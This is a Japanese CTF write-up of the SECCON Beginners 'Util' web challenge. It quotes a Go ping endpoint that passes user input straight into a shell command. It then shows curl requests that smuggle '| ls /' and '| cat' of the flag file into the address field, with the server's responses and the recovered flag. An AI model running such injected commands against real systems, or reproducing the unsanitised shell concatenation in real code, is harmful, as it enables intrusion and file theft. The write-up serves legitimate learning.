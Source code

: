 # Util: 460 team solved

半数以上のチームが解けた問題が解けなかったため、すごく悔しいです。

## Description

beginner, 54 pt

author:hi120ki

ctf4b networks社のネットワーク製品にはとっても便利な機能があるみたいです! でも便利すぎて不安かも...?

(注意) SECCON Beginners運営が管理しているサーバー以外への攻撃を防ぐために外部への接続が制限されています。

https://util.quals.beginners.seccon.jp

## SOLUTIONS

入力フォームはIPアドレスの形式以外は弾いてしまう。

mainのソースコードを見てみると、アドレスの前にpingの`-p`オプションを渡したいが、それも無理そう。

https://qiita.com/s_wing/items/33c6c02883136b61caff


```go
package main
import (
	"os/exec"
	"github.com/gin-gonic/gin"
)
type IP struct {
	Address string `json:"address"`
}
func main() {
	r := gin.Default()

	r.LoadHTMLGlob("pages/*")

	r.GET("/", func(c *gin.Context) {
		c.HTML(200, "index.html", nil)
	})

	r.POST("/util/ping", func(c *gin.Context) {
		var param IP
		if err := c.Bind(&param); err != nil {
			c.JSON(400, gin.H{"message": "Invalid parameter"})
			return
		}

		commnd := "ping -c 1 -W 1 " + param.Address + " 1>&2"
		result, _ := exec.Command("sh", "-c", commnd).CombinedOutput()

		c.JSON(200, gin.H{
			"result": string(result),
		})
	})

	if err := r.Run(); err != nil {
		panic(err)
	}
}
```

OSコマンドインジェクション攻撃が使えるとのことで、IPアドレスの後ろにパイプでコマンドを発行させました。
（前がダメなら、後ろが使えないか考えるべきでした...）

```bash
# search dir
% curl -X POST -H "Content-Type: application/json" -d '{"address": "127.0.0.1 | ls /"}' https://util.quals.beginners.seccon.jp/util/ping
{"result":"app\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}%
# get flag.txt
% curl -X POST -H "Content-Type: application/json" -d '{"address": "127.0.0.1 | cat /flag_A74FIBkN9sELAjOc.txt"}' https://util.quals.beginners.seccon.jp/util/ping
{"result":"ctf4b{al1_0vers_4re_i1l}\n"}%
```


## FLAG

```
ctf4b{al1_0vers_4re_i1l}
```

## REF

https://github.com/K-shir0/ctf4b_2022_k-shir0_writeups/tree/main/web/util
